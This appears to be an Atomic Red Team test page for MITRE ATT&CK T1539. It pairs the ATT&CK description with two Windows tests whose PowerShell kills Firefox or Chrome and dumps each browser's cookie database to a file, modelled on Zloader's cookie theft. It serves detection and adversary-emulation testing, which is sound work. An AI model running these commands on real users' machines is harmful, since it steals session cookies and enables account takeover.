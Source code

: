 # T1539 - Steal Web Session Cookie
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1539)
<blockquote>An adversary may steal web application or service session cookies and use them to gain access to web applications or Internet services as an authenticated user without needing credentials. Web applications and services often use session cookies as an authentication token after a user has authenticated to a website.

Cookies are often valid for an extended period of time, even if the web application is not actively used. Cookies can be found on disk, in the process memory of the browser, and in network traffic to remote systems. Additionally, other applications on the targets machine might store sensitive authentication cookies in memory (e.g. apps which authenticate to cloud services). Session cookies can be used to bypasses some multi-factor authentication protocols.(Citation: Pass The Cookie)

There are several examples of malware targeting cookies from web browsers on the local system.(Citation: Kaspersky TajMahal April 2019)(Citation: Unit 42 Mac Crypto Cookies January 2019) There are also open source frameworks such as Evilginx 2 and Muraena that can gather session cookies through a malicious proxy (ex: [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557)) that can be set up by an adversary and used in phishing campaigns.(Citation: Github evilginx2)(Citation: GitHub Mauraena)

After an adversary acquires a valid cookie, they can then perform a [Web Session Cookie](https://attack.mitre.org/techniques/T1550/004) technique to login to the corresponding web application.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Steal Firefox Cookies (Windows)](#atomic-test-1---steal-firefox-cookies-windows)

- [Atomic Test #2 - Steal Chrome Cookies (Windows)](#atomic-test-2---steal-chrome-cookies-windows)


<br/>

## Atomic Test #1 - Steal Firefox Cookies (Windows)
This test queries Firefox's cookies.sqlite database to steal the cookie data contained within it, similar to Zloader/Zbot's cookie theft function. 
Note: If Firefox is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 4b437357-f4e9-4c84-9fa6-9bcee6f826aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539FirefoxCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "firefox" -force -erroraction silentlycontinue
$CookieDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*\cookies.sqlite"
"select host, name, value, path, expiry, isSecure, isHttpOnly, sameSite from [moz_cookies];" | cmd /c #{sqlite3_path} "$CookieDBLocation" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{sqlite3_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
<br/>

## Atomic Test #2 - Steal Chrome Cookies (Windows)
This test queries Chrome's SQLite database to steal the encrypted cookie data, designed to function similarly to Zloader/Zbot's cookie theft function. 
Once an adversary obtains the encrypted cookie info, they could go on to decrypt the encrypted value, potentially allowing for session theft. 
Note: If Chrome is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 26a6b840-4943-4965-8df5-ef1f9a282440





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| cookie_db | Filepath for Chrome cookies database | string | $env:localappdata&#92;Google&#92;Chrome&#92;User Data&#92;Default&#92;Network&#92;Cookies|
| sqlite3_path | Path to sqlite3 | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1539ChromeCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "chrome" -force -erroraction silentlycontinue
"select host_key, name, encrypted_value, path, expires_utc, is_secure, is_httponly from [Cookies];" | cmd /c #{sqlite3_path} "#{cookie_db}" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file}
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{sqlite3_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\sqlite.zip" -destinationpath "PathToAtomicsFolder\..\ExternalPayloads\" -force
```




<br/>
